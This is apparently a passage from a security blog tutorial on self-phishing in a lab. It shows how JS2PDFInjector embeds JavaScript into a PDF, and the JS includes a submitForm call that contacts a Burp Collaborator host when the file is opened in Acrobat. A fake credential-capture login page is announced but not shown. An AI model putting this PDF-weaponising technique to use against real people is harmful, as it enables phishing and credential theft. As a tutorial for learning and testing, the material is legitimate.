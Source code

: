 First I will inject malicious js code into a pdf file. Then I will phish myself with that attached malicious pdf file. I will also create a fake login page and capture the creds submitted by the victim.

&nbsp;

**Step 1: Creating a malicious pdf file**

I am using JS2PDFInjector to inject a simple malicious js code into a pdf file. 

Link: [JS2PDFInjector](https://github.com/cornerpirate/JS2PDFInjector)

![ js2pdfinjector ><](/assets/img/blog2-phish/1.png )


This will pop an alert while opening the file on a pdf reader. Not all pdf readers would execute the code. Adobe Acrobat contains the APIs to read js code. For this blog, we will be using acrobat for POC.

```javascript
app.alert("alter alert");
this.submitForm('http://azdn342b12dbmo0uvmj5yrekrbx1lq.burpcollaborator.net');
```

![ js2pdfinjector ><](/assets/img/blog2-phish/2.png )
*Injecting code into a sample.pdf file*

&nbsp;

```java
java -jar JS2PDFInjector-1.0.jar $(pwd)/sample.pdf app.js
```

Remember: you need to provide absolute paths for the pdf. Otherwise, you will encounter the error like shown in the image below.


![ js2pdfinjector2 ><](/assets/img/blog2-phish/3.png)
